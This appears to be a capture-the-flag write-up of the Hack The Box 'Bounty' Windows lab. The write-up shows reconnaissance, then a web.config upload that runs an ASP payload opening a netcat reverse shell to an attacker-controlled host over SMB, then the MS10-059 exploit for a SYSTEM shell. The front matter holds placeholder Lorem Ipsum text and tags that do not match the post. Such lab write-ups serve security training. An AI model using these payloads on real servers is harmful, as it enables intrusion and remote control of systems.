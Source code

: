 ```yaml
---
layout: single
title: Bounty - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2021-02-28
classes: wide
header:
  teaser: /assets/images/htb-writeup-bounty/bounty_logo.png
  teaser_home_page: true
  icon: /assets/images/windows.png
categories:
  - hackthebox
  - infosec
tags:  
  - windows
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-bounty/bounty_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝


1. [root:/git/htb/bounty]# nmap -Pn -n -sCV 10.10.10.93 --open                                                                       (master✱)
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Microsoft IIS httpd 7.5
    | http-methods:
    |_  Potentially risky methods: TRACE
    |_http-server-header: Microsoft-IIS/7.5
    |_http-title: Bounty
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows


  DIRB:
  ==> DIRECTORY: http://10.10.10.93/aspnet_client/
  ==> DIRECTORY: http://10.10.10.93/uploadedfiles/

  NIKTO:
  + Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, POST


2. Visiting port 80 we only see merlin.jpg, download the image to see if something is hidden within.

    [root:/git/htb/bounty]# binwalk -e merlin.jpg
      DECIMAL       HEXADECIMAL     DESCRIPTION
      --------------------------------------------------------------------------------
      0             0x0             JPEG image data, JFIF standard 1.02
      30            0x1E            TIFF image data, big-endian, offset of first image directory: 8
      332           0x14C           JPEG image data, JFIF standard 1.02
      7637          0x1DD5          JPEG image data, JFIF standard 1.02

  Binwalk doesn't extract anything, however we can see two other images with offset 332 and 7637. Extract them with dd.

    [root:/git/htb/bounty]# dd if=merlin.jpg of=out.jpg skip=332 bs=1                                                               (master✱)
      780400+0 records in
      780400+0 records out
      780400 bytes (780 kB, 762 KiB) copied, 2.0058 s, 389 kB/s

    [root:/git/htb/bounty]# dd if=merlin.jpg of=out2.jpg skip=7637 bs=1                                                             (master✱)
      773095+0 records in
      773095+0 records out
      773095 bytes (773 kB, 755 KiB) copied, 2.52271 s, 306 kB/s

  Both images have the same illustration, merlin, but are smaller - like a thumbnail. This leads to nothing, move one.
  Start to fuzz to see if we can find anything else.

    root@nidus:~/Downloads# ffuf -c -w /usr/share/wordlists/dirb/big.txt -u http://bounty.htb/FUZZ.aspx
      --- snip ---
      transfer                [Status: 200, Size: 941, Words: 89, Lines: 22]


3. Our new found side, http://10.10.10.93/transfer.aspx, allows us to upload files.
   We can't see what file type is allowed by looking at the source, but trying a few we can see .jpg is allowed.
   By judging of the merlin picture, we should use 'magic' (magic byte) to bypass this and get our foothold.

  Trying to upload the aspx-file and changing content type from "application/octet-stream" to "image/jpeg" doesn't work.
  Changing the filename from "rev.aspx" to "rev.jpg" works and is allowed, however that doesn't do anything for us.

  To find all available extensions, intercept the upload and send it to burp intruder. Set the extension as target, and upload
  the extension list as payload. Run and we find following allowed extensions:
    gif, jpg, png, doc, config, jpeg, xls, xlsx, docx

  A web.config file lets you customize the way your site or a specific directory on your site behaves. For example, if you
  place a web.config file in your root directory, it will affect your entire site. If you place it in a /content directory,
  it will only affect that directory.

  There is a known RCE vulnerability with web.config-files, download and modify it to trigger a reverse shell.

  [root:/git/htb/bounty]# cat web.config                                                                                          (master✱)
    <?xml version="1.0" encoding="UTF-8"?>
    <configuration>
       <system.webServer>
          <handlers accessPolicy="Read, Script, Write">
             <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
          </handlers>
          <security>
             <requestFiltering>
                <fileExtensions>
                   <remove fileExtension=".config" />
                </fileExtensions>
                <hiddenSegments>
                   <remove segment="web.config" />
                </hiddenSegments>
             </requestFiltering>
          </security>
       </system.webServer>
       <appSettings>
    </appSettings>
    </configuration>
    <!–-
    <% Response.write("-"&"->")
    Response.write("<pre>")
    Set wShell1 = CreateObject("WScript.Shell")
    Set cmd1 = wShell1.Exec("//10.10.14.8/share/nc64.exe 10.10.14.8 4488 -e cmd")
    output1 = cmd1.StdOut.Readall()
    set cmd1 = nothing: Set wShell1 = nothing
    Response.write(output1)
    Response.write("</pre><!-"&"-") %>
    -–>

  Start your SMB Share, upload the 'web.config' file, setup a listener and grab the incomming shell.

  [root:/git/htb/bounty]# rlwrap nc -lvnp 4488                                                                                      (master✱)
    listening on [any] 4488 ...
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.93] 49160
    Microsoft Windows [Version 6.1.7600]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    c:\windows\system32\inetsrv> whoami
      bounty\merlin

    c:\windows\system32\inetsrv> type C:\Users\merlin\Desktop\user.txt
      e29ad89891462e0b09741e3082f44a2f



██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Grab systeminfo and run windows-exploit-suggester locally.

[root:/git/htb/bounty]# python /opt/windows-exploit-suggester.py --update                                                       (master✱)
  [*] initiating winsploit version 3.3...
  [+] writing to file 2021-03-04-mssb.xls
  [*] done
[root:/git/htb/bounty]# python /opt/windows-exploit-suggester.py --database 2021-03-04-mssb.xls --systeminfo systeminfo.txt     (master✱)
  [*] initiating winsploit version 3.3...
  [*] database file detected as xls or xlsx based on extension
  [*] attempting to read from the systeminfo input file
  [+] systeminfo input file read successfully (ascii)
  [*] querying database file for potential vulnerabilities
  [*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
  [*] there are now 197 remaining vulns
  [+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
  [+] windows version identified as 'Windows 2008 R2 64-bit'
  [*]
  [M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
  [M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
  [E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
  [*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
  [*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
  [*]
  [E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
  [M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
  [M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
  [E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
  [E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
  [M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
  [M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
  [*] done


  HTB don't want any Kernel exploits to be used, so with that in mind we only have MS10-059 for instant privesc.

  [root:/git/htb/bounty]# cp /opt/windows-kernel-exploits/MS10-059/MS10-059.exe /srv/pub-share                                    (master✱)
  [root:/git/htb/bounty]# chmod +x /srv/pub-share/MS10-059.exe

  C:\> //10.10.14.8/share/MS10-059.exe 10.10.14.8 4499
    /Chimichurri/-->This exploit gives you a Local System shell
    /Chimichurri/-->Changing registry values...
    /Chimichurri/-->Got SYSTEM token...
    /Chimichurri/-->Running reverse shell...
    /Chimichurri/-->Restoring default registry values...

  [root:/git/htb/bounty]# rlwrap nc -lvnp 4499                                                                                      (master✱)
  listening on [any] 4499 ...
  connect to [10.10.14.8] from (UNKNOWN) [10.10.10.93] 49163
  Microsoft Windows [Version 6.1.7600]
  Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

  C:\> whoami
  nt authority\system

  C:\> type C:\Users\Administrator\Desktop\root.txt
    c837f7b699feef5475a0c079f9d4f5ea


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

File Extension List:
  https://gist.github.com/securifera/e7eed730cbe1ce43d0c29d7cd2d582f4

web.config RCE:
  https://poc-server.com/blog/2018/05/22/rce-by-uploading-a-web-config/
